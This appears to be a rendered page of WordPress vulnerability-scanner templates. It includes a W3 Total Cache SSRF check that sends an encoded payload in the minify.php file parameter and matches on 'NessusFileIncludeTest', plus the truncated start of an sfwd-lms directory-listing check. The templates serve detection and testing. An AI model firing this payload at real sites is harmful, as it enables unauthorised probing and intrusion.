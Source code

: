 **Type - status**

- status
  1. 200

---

# Wordpress W3C Total Cache \<= 0.9.4 - Server Side Request Forgery (SSRF)

## Description

- The W3 Total Cache WordPress plugin was affected by an Unauthenticated Server Side Request Forgery (SSRF) security vulnerability.

- severity - medium
- tags - wordpress,wp-plugin,cache,ssrf,wp

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/w3-total-cache/pub/minify.php?file=yygpKbDS1y9Ky9TLSy0uLi3Wyy9KB3NLKkqUM4CyxUDpxKzECr30_Pz0nNTEgsxiveT8XAA.css

### Matchers

**Type - word**

- part - body
- words
  1. NessusFileIncludeTest

---

# WordPress Plugin Sfwd-lms Listing

## Description

- Searches for sensitive directories present in the sfwd-lms plugin.
- severity - info
- tags - wordpress,listing,plugin,edb

## Requests

- Method - GET

### URL
